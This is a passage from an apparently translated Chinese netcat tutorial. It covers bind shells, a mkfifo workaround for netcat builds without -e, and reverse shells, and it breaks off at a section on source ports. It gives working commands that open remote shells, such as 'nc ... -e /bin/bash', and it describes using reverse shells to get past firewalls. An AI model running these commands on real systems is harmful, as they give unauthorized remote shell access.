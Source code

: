 Server

$nc -l 1567 -e /bin/bash -i
Client
$nc 172.31.100.7 1567
这里我们已经创建了一个netcat服务器并且表示当它连接成功时执行/bin/bash
假如netcat 不支持-c 或者 -e 参数（openbsd netcat）,我们仍然能够创建远程shell

Server

$mkfifo /tmp/tmp_fifo
$cat /tmp/tmp_fifo | /bin/sh -i 2>&1 | nc -l 1567 > /tmp/tmp_fifo
这里我们创建了一个fifo文件，然后使用管道命令把这个fifo文件内容定向到shell 2>&1中。是用来重定向标准错误输出和标准输出，然后管道到netcat 运行的端口1567上。至此，我们已经把netcat的输出重定向到fifo文件中。
说明：

从网络收到的输入写到fifo文件中

cat 命令读取fifo文件并且其内容发送给sh命令

sh命令进程受到输入并把它写回到netcat。

netcat 通过网络发送输出到client

至于为什么会成功是因为管道使命令平行执行，fifo文件用来替代正常文件，因为fifo使读取等待而如果是一个普通文件，cat命令会尽快结束并开始读取空文件。

在客户端仅仅简单连接到服务器

Client

$nc -n 172.31.100.7 1567
你会得到一个shell提示符在客户端
 葱油拌面
葱油拌面
翻译于 4年前
7人顶
顶  翻译得不错哦！
其它翻译版本(1)
反向shell

反向shell是指在客户端打开的shell。反向shell这样命名是因为不同于其他配置，这里服务器使用的是由客户提供的服务。

服务端

$nc -l 1567
在客户端，简单地告诉netcat在连接完成后，执行shell。
客户端

$nc 172.31.100.7 1567 -e /bin/bash
现在，什么是反向shell的特别之处呢 
反向shell经常被用来绕过防火墙的限制，如阻止入站连接。例如，我有一个专用IP地址为172.31.100.7，我使用代理服务器连接到外部网络。如果我想从网络外部访问 这台机器如1.2.3.4的shell，那么我会用反向外壳用于这一目的。

10. 指定源端口

假设你的防火墙过滤除25端口外其它所有端口，你需要使用-p选项指定源端口。

服务器端

$nc -l 1567
客户端
